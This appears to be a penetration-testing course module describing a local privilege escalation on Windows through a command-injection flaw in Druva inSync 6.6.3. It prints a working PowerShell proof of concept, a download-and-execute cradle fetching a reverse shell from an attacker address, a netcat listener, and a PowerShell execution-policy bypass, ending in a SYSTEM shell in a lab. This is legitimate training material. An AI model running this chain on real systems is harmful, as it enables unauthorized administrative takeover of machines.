 We may be able to escalate privileges on well-patched and well-configured systems if users are permitted to install software or vulnerable third-party applications/services are used throughout the organization. It is common to encounter a multitude of different applications and services. Some services/applications may allow us to escalate to SYSTEM. In contrast, others could cause a denial-of-service condition or allow access to sensitive data such as configuration files containing passwords.

### Enumerating Installed Programs
```cmd-session
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

The output looks mostly standard for a Windows 10 workstation. However, the `Druva inSync` application stands out. A quick Google search shows that version `6.6.3` is vulnerable to a command injection attack via an exposed RPC service. We may be able to use [this](https://www.exploit-db.com/exploits/49211) exploit PoC to escalate our privileges. From this [blog post](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/) which details the initial discovery of the flaw, we can see that Druva inSync is an application used for “Integrated backup, eDiscovery, and compliance monitoring,” and the client application runs a service in the context of the powerful `NT AUTHORITY\SYSTEM` account. Escalation is possible by interacting with a service running locally on port 6064.

### Enumerating Local Ports

Let's do some further enumeration to confirm that the service is running as expected. A quick look with `netstat` shows a service running locally on port `6064`.
```cmd-session
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

### Enumerating Process ID

Next, let's map the process ID (PID) `3324` back to the running process.
```powershell-session
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

### Enumerating Running Service

At this point, we have enough information to determine that the Druva inSync application is indeed installed and running, but we can do one last check using the `Get-Service` cmdlet.
```powershell-session
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

## Druva inSync Windows Client Local Privilege Escalation Example

### Druva inSync PowerShell PoC

With this information in hand, let's try out the exploit PoC, which is this short PowerShell snippet.
```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

### Modifying PowerShell PoC

For our purposes, we want to modify the `$cmd` variable to our desired command. We can do many things here, such as adding a local admin user (which is a bit noisy, and we want to avoid modifying things on client systems wherever possible) or sending ourselves a reverse shell. Let's try this with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script to our attack box, and rename it something simple like `shell.ps1`. Open the file, and append the following at the bottom of the script file (changing the IP to match our address and listening port as well):
```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Modify the `$cmd` variable in the Druva inSync exploit PoC script to download our PowerShell reverse shell into memory.
```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

### Starting a Python Web Server

Next, start a Python web server in the same directory where our `script.ps1` script resides.
```shell-session
$ python3 -m http.server 8080
```

### Catching a SYSTEM Shell

Finally, start a `Netcat` listener on the attack box and execute the PoC PowerShell script on the target host (after [modifying the PowerShell execution policy](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy) with a command such as `Set-ExecutionPolicy Bypass -Scope Process`). We will get a reverse shell connection back with `SYSTEM` privileges if all goes to plan.
```shell-session
$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.7] 58611
Windows PowerShell running as user WINLPE-WS01$ on WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.


PS C:\WINDOWS\system32>whoami

nt authority\system


PS C:\WINDOWS\system32> hostname

WINLPE-WS01
```
